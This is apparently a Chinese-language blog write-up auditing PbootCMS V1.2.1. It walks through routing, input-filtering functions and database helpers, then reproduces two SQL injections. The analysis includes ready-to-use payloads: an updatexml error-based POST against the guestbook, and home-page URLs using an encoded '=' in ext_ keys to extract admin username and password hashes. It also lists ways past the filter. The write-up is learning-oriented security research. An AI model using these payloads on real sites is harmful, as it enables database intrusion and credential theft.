




# pbootcms 代码审计
- [前言](#前言)
- [环境准备](#环境准备)
- [目录结构](#目录结构)
- [MVC](#MVC)
    - [路由](#路由)
        - [自定义路由](#自定义路由)
        - [MVC动态路由](#MVC动态路由)
- [内核分析](#内核分析)
    - [原生变量](#原生变量)
    - [系统获取变量函数](#系统获取变量函数)
        - [测试](#测试)
    - [数据库类代码分析](#数据库类代码分析)
        - [测试获取用户信息](#测试获取用户信息)
        - [测试插入信息](#测试插入信息)
        - [测试更新信息](#测试更新信息)
        - [测试删除信息](#测试删除信息)
- [SQL注入分析](#SQL注入分析)
    - [留言板注入](#留言板注入)
    - [前台首页注入](#前台首页注入)
- [总结](总结)
## 前言
最近审计了一些小众cms感觉过于简单，经一个老哥推荐了pbootcms，是个有MVC框架的cms，查了一波有不错的学习博客，正好来学习MVC以及编写测试。
## 环境准备
- [下载地址](https://gitee.com/hnaoyun/PbootCMS/releases/V1.2.1)
- phpstorm+phpstudy+chrome+navicat
- 手动新建数据库pbootcms
- 打开navicat 导入 /pbootCMS/static/backup/sql文件
- 修改数据库配置文件\config\database.php,如图所示




## 目录结构

```
PbootCMS-V1.2.1
├─ apps         应用程序
│  ├─ admin     后台模块
│  ├─ api       api模块
│  ├─ common    公共模块
│  ├─ home      前台模块
├─ config       配置文件
│  ├─ config.php    配置文件
│  ├─ database.php  数据库配置文件
│  ├─ route.php     用户自定义路由规则
├─ core         框架核心
│  ├─ function  框架公共函数库
│  │  ├─ handle.php 助手函数库1
│  │  ├─ helper.php 助手函数库2
├─ template     html模板
├─ admin.php    管理端入口文件
├─ api.php      api入口文件
├─ index.php    前端入口文件
```

## MVC

### 路由

> 路由文件: PbootCMS\apps\common\route.php


index.php入口文件有定义入口文件地址默认为home
```php
// 入口文件地址绑定                      
define('URsesL_BLIND', 'home');  
```

比如`http://localhost/index.php/about/1`，其中`about/1`对应为`home/about/index/scode`

- 路由：
```
'home/about' => 'home/about/index/scode'
```

对应文件为:
```
PbootCMS/apps/home/controller/AboutController.php
```

- 方法: `index`
- 参数: `scode`

### 自定义路由

在AboutController.php添加如下:


同时在route.php添加如下:


访问`http://localhost/index.php/test`


`'home/test' => 'home/about/test',` 这里about代表AboutController.php控制器下的AboutController类，而test代表该类下的test()方法。

### MVC动态路由
- 当没有自定义路由的时候(route.php没有路由),程序会按照普通的MVC模式访问。

如 `http://localhost/index.php/search/index` 这个是没有自定义路由的，是按照默认普通MVC模式去访问的，在该类下增加一个方法。


访问`http://localhost/index.php/search/test1`即可。

## 内核分析
### 原生变量
- 原生GET、POST、REQUEST
- 了解系统参数过滤情况-找任意一处系统可外部访问的地方

测试语句：
```php
    public function test()
    {
        var_dump($_GET);
        var_dump($_POST);
        var_dump($_REQUEST);
        exit;
    }

// http://localhost/index.php/search/test?a[1]=1%27%22%3C%3E()[]1
// post: b=2'"<>'[]()&c=1
```




可以看到原生变量GET、POST、REQUEST没有任何过滤。因此原生变量容易导致漏洞。

### 系统获取变量函数

路径:/core/function/helper下有function filter()函数。


分析可知：filter对传入的$varname变量以GET、POST、COOKIE、SESSSION等赋值给$data,$data再经历一些操作(反正我没看完)最终传到escape_string函数过滤。

跟踪一下escape_string函数

```php
function escape_string($string, $dropStr = true)
{
    if (! $string)
        return $string;
    if (is_array($string)) { // 数组处理
        foreach ($string as $key => $value) {
            $string[$key] = escape_string($value);
        }
    } elseif (is_object($string)) { // 对象处理
        foreach ($string as $key => $value) {
            $string->$key = escape_string($value);
        }
    } else { // 字符串处理
        if ($dropStr) {
            $string = preg_replace('/(0x7e)|(0x27)|(0x22)|(updatexml)|(extractvalue)|(name_const)|(concat)/i', '', $string);
        }
        $string = htmlspecialchars(trim($string), ENT_QUOTES, 'UTF-8');
        $string = addslashes($string);
    }
    return $string;
}
```

读了一下，是处理了数组和对象，把它们都转为字符串过滤，过滤的具体操作是将0x7e(~),0x27('),0x22("),updatexml、extractvalue、name_const、concat，不分大小写转换为空，再经过htmlspecialchars转为html实体，最后经过addslashes函数转义。

- 两个注意点：
    - 双写绕过
    - 过滤只针对value，数组的key未加过滤

### 测试



在第419行有get函数调用了filter过滤函数，同理的延伸出post、request、cookie等函数，都是一样的原理函数，只是传递方法不同。

测试代码如下，仍然写原来刚刚的位置，修改了一下。
```php
    public function test()
    {
        var_dump(get(a));
        var_dump(post(b));
        var_dump(request(c));
        exit;
    }
```


## 数据类代码分析

### 测试获取用户信息

首先在navicat建了一个表，如图所示：(新建了ay_test表)


在控制器(我这里是SearchController.php)增加test()方法:

```php
    public function test()
    {
        $id = post("id");
        $result = $this->model->getUser($id);
        var_dump($result)

    }
```

在模板类(`PbootCMS/apps/home/model/ParserModel.php`)增加对应的getUser方法:

```php
    public function getUser($id){
        return parent::table("ay_test")->where("id=".$id) -> select();
    }
```

最后访问`http://localhost/index.php/search/test`,用post传入`id=1`


这里还测试出个带回显的SQL注入，POST如下:

```
id=1 or 1) # 
```


可以看到，在为真结果下数据库全部列出。为了方便测试，把post改为get

`http://localhost/index.php/search/test?id=1 or 1) %23`
`http://localhost/index.php/search/test?id=1) union select 1,2,user()%23`

SQLMAP结果如图：



### 测试插入信息

- 控制类：(SearchController.php)

```php
    public function test()
    {
        $data["username"] = post("username");
        $data["password"] = post("password");
        if($data["username"]&&$data["password"])
            $result = $this->model->addUser($data);
            var_dump($result);
    }
```

- 对应的模板类: (ParserModel.php)
```php
    public function addUser($data){
        return parent::table("ay_test")->insert($data);
    }
```


可以看到int(1)以及数据库的新增数据，说明命令执行成功了。

### 测试更新信息

- 控制类: (SearchController.php)

```php
    public function test()
    {
        $data = [
            "username" => post("username"),
            "password" => post("password")
        ];
        $result = $this->model->updateUser($data);
        var_dump($result);
    }
```

- 对应的模板类: (ParserModel.php)

```php
    public function updateUser($data){
        return parent::table("ay_test")->where("username='".$data["username"]."'")->update(array("password"=>$data["password"]));
    }
```


可以看到test1的密码成功被修改。


### 测试删除信息

- 控制类: (SearchController.php)

```php
    public function test()
    {
        $id = get("id");
        $result = $this->model->deleteUser($id);
        var_dump($result);
    }
```

- 对应的模板类: (ParserModel.php)

```php
    public function deleteUser($id){
        return parent::table("ay_test")->where("id='$id'")->delete();
    }

```


可以看到原来的zhangsan已经被删掉。

## SQL注入分析

### 留言板注入

**漏洞复现**

抓包以及payload如下：


```
POST /index.php/Message/add HTTP/1.1
Host: 127.0.0.1

contacts[content`,`create_time`,`update_time`) VALUES ('1', '1' ,1 and updatexml(1,concat(0x3a,user()),1) );-- a] = 1111&mobile=1&content=1&checkcode=3697
```

**漏洞分析**

xdebug跟踪一下在MessageController.php的方法add()

- 关键代码(这里删掉了一些无用的代码,便于直观)
```php
   public function add()
    {
            // 读取字段
            if (! $form = $this->model->getFormField(1)) {
                alert_back('留言表单不存在任何字段，请核对后重试！');
            }
            // 接收数据
            $mail_body = '';
            foreach ($form as $value) {
                $field_data = post($value->name);
                if (is_array($field_data)) { // 如果是多选等情况时转换
                    $field_data = implode(',', $field_data);
                }
                if ($value->required && ! $field_data) {
                    alert_back($value->description . '不能为空！');
                } else {
                    $data[$value->name] = post($value->name);
                    $mail_body .= $value->description . '：' . post($value->name) . '<br>';
                }
            }
            
            ...
            
            if ($this->model->addMessage($data)) {
                session('lastsub', time()); // 记录最后提交时间
                $this->log('留言提交成功！');
            ...

```

先是读取字段即调用了模板方法getFormField,去读取留言表单的字段。接着是接收数据，放到post()过滤一遍，前面讲过了，post()函数有单双引号、updatexml以及html实体编码等过滤。然后其它字段也经历同样操作输出到数组$data里。

后面调用了模板方法addMessage($data)来处理数组。也是`SQL注入发生点`该函数如下：

```php
    public function addMessage($data)
    {
        return parent::table('ay_message')->autoTime()->insert($data);
    }
```

跟踪一下insert插入函数


这一段有点长，基本上是字符串拼接，没有什么过滤，insert带到数据库查询从而引发了SQL注入。


### 前台首页注入

前台模块home/indexController.php的index方法如下：

```php
    public function index()
    {
        $content = parent::parser('index.html'); // 框架标签解析
        $content = $this->parser->parserBefore($content); // CMS公共标签前置解析
        $content = $this->parser->parserPositionLabel($content, - 1, '首页', SITE_DIR . '/'); // CMS当前位置标签解析
        $content = $this->parser->parserSpecialPageSortLabel($content, 0, '', SITE_DIR . '/'); // 解析分类标签
        $content = $this->parser->parserAfter($content); // CMS公共标签后置解析
        $this->cache($content, true);
    }
```

跟进漏洞点->parserAfter函数跳转到ParserController


可以看到这是一个内容解析对应不同的标签，漏洞点在指定列表，跟进parserSpecifyListLabel函数

```php
public function parserSpecifyListLabel($content)
{
  ...
  // 数据筛选
  $where2 = array();
  foreach ($_GET as $key => $value) {
    if (substr($key, 0, 4) == 'ext_') { //要求开头为ext_
      $where2[$key] = get($key);
    }
  }
  ...
  // 读取数据
  if ($page) {
    $data = $this->model->getList($scode, $num, $order, $where1, $where2);
  } else {
    $data = $this->model->getSpecifyList($scode, $num, $order, $where1, $where2);
  }
}
```

可以得知最后是将拼接好的where2数据(判断开头为ext_)传给ParserModel下的getList以及getSpecial两个方法，这两个方法未经过任何过滤直接床给where、select()底层方法查询，从而造成SQL注入漏洞。

```
http://127.0.0.1/index.php/Index?ext_price%3D1/**/and/**/updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,username,0x3a,password,0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1));%23

http://127.0.0.1/index.php/Index?ext_price%3D1/**/and/**/updatexml(1,concat(0x7e,(SELECT/**/distinct/**/substr(concat(0x23,username,0x3a,password,0x23),8,64)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1));%23

//这里因为md5显示有限，用substr截取后面字符
```

这里是因为`%3D`,因为这个字符串它把整个后面都当成了key值而不是value，从而绕过get的过滤，这里尝试把`%3D`改成`=`观看结果


可以看到变成了value的值就无法绕过了，所以这里是用`%3D`来绕过key判断的。

同样地 其它地方也存在类似注入，这里不做分析了。

## Resources
- [Pbootcms开发手册](http://www.mianshigee.com/tutorial/PbootCMS/spilt.2.0.md/)
- [Pmiaowu](https://www.yuque.com/pmiaowu/bfgkkh/lrqvqv#JNuFc)